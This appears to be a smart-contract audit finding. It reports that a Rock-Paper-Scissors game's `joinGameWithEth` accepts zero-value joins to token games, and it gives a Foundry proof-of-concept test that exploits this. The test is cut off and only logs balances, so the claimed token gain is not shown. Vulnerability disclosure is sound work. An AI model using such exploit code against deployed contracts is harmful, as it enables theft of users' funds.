 `joinGameWithEth ` has no check for  msg.value == 0 , causing attacker can attend Token bet game with 0 value when call `joinGameWithEth`. To win Token without risk.

There is no check for msg.value == 0

&#x20;  &#x20;

```Solidity
function joinGameWithEth(uint256 _gameId) external payable {
        Game storage game = games[_gameId];

        require(game.state == GameState.Created, "Game not open to join");
        require(game.playerA != msg.sender, "Cannot join your own game");
        require(block.timestamp <= game.joinDeadline, "Join deadline passed");
@>      require(msg.value == game.bet, "Bet amount must match creator's bet");
        // what will happen if the msg.value== 0    

        game.playerB = msg.sender;
        emit PlayerJoined(_gameId, msg.sender);
    }
```

## Impact

attacker can attend the game created by `createGameWithToken ` with game.joinGameWithEth{value: 0 ether}(gameId);

Causing the attacker can win Token with no risk.

### Proof of Code

PlayerB get the Token when the game is canceled.

```Solidity
 function testJoinGameWithToken() public {
        console2.log("Player A token: ", token.balanceOf(playerA));
        console2.log("Player B token: ", token.balanceOf(playerB));
        vm.startPrank(playerA);
        token.approve(address(game), 1);
        gameId = game.createGameWithToken(TOTAL_TURNS, TIMEOUT);
        vm.stopPrank();


        vm.startPrank(playerB);

        game.joinGameWithEth{value: 0 ether}(gameId);
        vm.stopPrank();

       //
    
        (address storedPlayerA, address storedPlayerB,,,,,,,,,,,,,, RockPaperScissors.GameState state) =
            game.games(gameId);

        assertEq(storedPlayerA, playerA);
        assertEq(storedPlayerB, playerB);

        console2.log("Player A token: ", token.balanceOf(playerA));
        console2.log("Player B token: ", token.balanceOf(playerB));
        vm.startPrank(playerA); 

        game.cancelGame(gameId);
        vm.stopPrank();
        console2.log("Player A token: ", token.balanceOf(playerA));
        console2.log("Player B token: ", token.balanceOf(playerB));

```